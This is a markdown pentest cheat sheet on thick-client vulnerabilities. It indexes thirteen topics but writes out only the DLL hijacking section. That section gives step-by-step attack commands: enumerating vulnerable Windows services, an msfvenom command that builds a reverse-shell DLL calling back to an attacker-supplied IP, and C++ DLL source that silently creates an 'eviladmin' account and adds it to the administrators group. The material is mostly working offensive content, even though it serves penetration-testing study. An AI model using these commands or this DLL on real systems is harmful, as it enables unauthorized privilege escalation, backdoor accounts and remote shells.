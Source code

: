 # Thick client vulnerabilities

## Index

- [DLL Hijacking](#dll-hijacking)
- [Insecure application design](#insecure-application-design)
- [Weak Hashing Algorithms](#weak-hashing-algorithms)
- [Cleartext secrets in memory](#cleartext-secrets-in-memory)
- [Hardcoded secrets](#hardcoded-secrets)
- [Unsigned binaries](#unsigned-binaries)
- [Lack of verification of the server certificate](#lack-of-verification-of-the-server-certificate)
- [Insecure SSL/TLS configuration](#insecure-ssltls-configuration)
- [Remote Code Execution via Citrix Escape](#remote-code-execution-via-citrix-escape)
- [Direct database access](#direct-database-access)
- [Insecure Windows Service permissions](#insecure-windows-service-permissions)
- [Code injection](#code-injection)
- [Windows persistence](#windows-persistence)

## DLL Hijacking

**Tool**
- [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) to see which DLLs are missing for an exe and do DLL Hijacking

**Process**
1. Use winPEAS to enumerate non-Windows services: `.\winPEASany.exe quiet servicesinfo`
2. Enumerate which of these services our user has stop and start access to `.\accesschk.exe /accepteula -uvqc user <service>`
3. Once it's found wich service is vulnerable to dll hijacking, find the executable's path with `sc qc dllsvc`
4. Using Process Monitor, add these the filters to find missing dlls.
   <img src="img/procmon-config-add.png" alt="procmon-config">
5. Generate a reverse shell DLL named hijackme.dll: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o hijackme.dll`
6. Run again the vulnerable service: `net stop <service>` and `net start dllsvc`

**Another example of a dll**:
```c++
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            // Perform initialization tasks for the DLL when it is loaded
	    
	    int i;
  	    i = system ("net user eviladmin Ev!lpass /add");
  	    i = system ("net localgroup administrators eviladmin /add");
	    
            break;
        case DLL_PROCESS_DETACH:
            // Perform cleanup tasks for the DLL when it is unloaded
            break;
        case DLL_THREAD_ATTACH:
            // Perform initialization tasks for each new thread that loads the DLL
            break;
        case DLL_THREAD_DETACH:
            // Perform cleanup tasks for each thread that unloads the DLL
            break;
    }
    return TRUE;
}
```
